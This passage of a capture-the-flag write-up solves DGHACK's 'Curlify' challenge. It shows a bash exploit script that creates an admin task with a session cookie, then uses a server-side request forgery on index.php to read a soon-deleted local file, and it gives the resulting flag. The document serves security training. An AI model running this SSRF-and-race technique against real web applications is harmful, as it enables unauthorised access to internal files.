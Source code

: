 There is our flag waiting for us at `/admin_panel/tasks/task_7635.txt`

Only problem, the file is removed after 5 seconds. This is too short for sending the request by hand, let's use a script :

```sh
  1 
  2 output=$(curl -i -s -k -X $'POST' \
  3     -H $'Host: curlify3.chall.malicecyber.com' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;    q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 57' -H $'Origin: https://curlify3.chall.malicecyber.com' -H $'Referer: h    ttps://curlify3.chall.malicecyber.com/admin_panel/task.php' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-Fetch-Dest: document' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-User: ?1' -H $'Te: trai    lers' \
  4     -b "PHPSESSID=$1" \
  5     --data-binary $'author=admin&type=incident&assignee=admin&description=aaa' \
  6     $'https://curlify3.chall.malicecyber.com/admin_panel/task.php' --compressed)
  7 
  8 id=$(echo $output | cut -d ' ' -f 178)
  9 echo $output
 10 
 11 curl -i -s -k -X $'POST' \
 12     -H $'Host: curlify3.chall.malicecyber.com' -H $'User-Agent: DGHACK/1.0 (Curlify)' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'    Accept-Encoding: gzip, deflate' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 64' -H $'Origin: https://curlify3.chall.malicecyber.com' -H $'Referer: https://curlify3.chall.malicecyber.com/' -H $'Upgra    de-Insecure-Requests: 1' -H $'Sec-Fetch-Dest: document' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-User: ?1' -H $'Te: trailers' \
 13     --data-binary "url=http%3a%2f%2f127.0.0.1%2fadmin_panel%2ftasks%2ftask_$id.txt" \
 14     $'https://curlify3.chall.malicecyber.com/index.php' --compressed
```

```
$ ./exploit.sh 6mjjmtpp7jndbb588rbhv0ocrs
[...]
=== Ticket N° 6924 ===
Creation Date: 2022-11-10 17:52:59
UserId: 1
Preferences: <?php

$flag = "DGHACK{SsRF_iNs3CuR3_4dMin_P4n3l_F0r_FuN}";

?>

Author: admin
Assignee: admin
Description: aaa
[...]
```

flag : `DGHACK{SsRF_iNs3CuR3_4dMin_P4n3l_F0r_FuN}`
